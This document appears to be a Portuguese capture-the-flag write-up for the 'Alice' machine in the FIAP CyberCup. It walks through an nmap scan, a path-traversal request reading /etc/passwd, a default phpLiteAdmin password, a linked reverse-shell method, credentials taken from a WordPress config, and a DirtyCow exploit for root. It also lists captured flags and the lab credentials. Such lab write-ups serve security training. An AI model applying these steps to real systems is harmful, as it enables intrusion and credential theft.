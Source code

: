 ```yaml
---
title: Alice
category:
  - FIAP CyberCup
---
```


## Enumeração

- Executado Nmap

```plaintext
# Nmap 7.80 scan initiated Sun Jun 28 00:32:09 2020 as: nmap -sC -sV -Pn -oA quick 10.2.0.131
Nmap scan report for 10.2.0.131
Host is up (0.0022s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Alice's Shop
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          45939/tcp   status
|   100024  1          51196/tcp6  status
|   100024  1          51294/udp   status
|_  100024  1          53359/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 28 00:32:23 2020 -- 1 IP address (1 host up) scanned in 13.82 seconds

```

### 80/TCP

- Ao acessar a porta 80/TCP identificado que existe um website apache em execução. DUrante navegação notado que as urls poderiam ser vulneraveis à LFI, o que foi comprovado na requisição abaixo

```http
GET /view.php?page=../../etc/passwd HTTP/1.1
Host: 10.2.0.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

- Ao tentar importar logs do apache como /var/log/apache2/access.log, dentre outros e obtido insucesso, verificado que nao seria possivel utilizar do LFI para obter RCE diretamente via log poisioning.

- Ao dar continuidade, executado gobuster enumerando outros possíveis diretorios no servidor, o que encontrou a pasta dbadmin que executava a aplicação phpLiteAdmin v1.9.3, que permitiu acesso com a senha padrão **admin**, encontrada por dedução

```plaintext
----------------------------------------------------------------------------------- ---------------------------------
  Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                               | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                        | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                     | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                      | php/webapps/39714.txt
----------------------------------------------------------------------------------- --------------------------------
```

- No phpLiteAdmin, executado procedimentos descritos em [https://v3ded.github.io/ctf/zico2.html](https://v3ded.github.io/ctf/zico2.html) onde através de um valor padrão era obtido um shell reverso a partir de um payload publicado via http server local

- Através do shell reverso, obtido flag user.txt como o usuário **alice** na pasta /home/zico

```plaintext
www-data@shop:/home/zico$ cat user.txt 
j39d8ajeoc0paz63lmndr0wusa823nu7
www-data@shop:/home/zico$ 
```

- Executado comando para enumerar arquivos com permissão de leitura no diretorio /home. Notado que haviam arquivos de configuração do wordpress e joomla.

```plaintext
www-data@shop:/tmp$ find /home -type f -readable 2>/dev/null                                                         
/home/zico/bootstrap.zip                                                                                             
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-1.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/slide-2.jpg                                                   
/home/zico/startbootstrap-business-casual-gh-pages/img/bg.jpg                                                        
/home/zico/startbootstrap-business-casual-gh-pages/img/intro-pic.jpg 
```

- Encontrado no arquivo de configuração **/home/zico/wordpress/wp-config.php** as credenciais de banco de dados do usuário **alice**, que eram tambem utilizadas para login com a conta no linux

```plaintext
alice:fiap3raaz
```

- Ao enumerar, notado que maquina é vulnervel ao dirtycow. Executado exploit **40839** do exploitdb e logado como firefart, obtendo flag root.txt

```plaintext
firefart@shop:~# cat /root/root.txt                                                                                  │zurc@kali:/dcruz/fiap/cybercup/alice/exploit$ 
983jlie39ksc0aslemn3378ad0u                                                                                        
firefart@shop:~#           
```
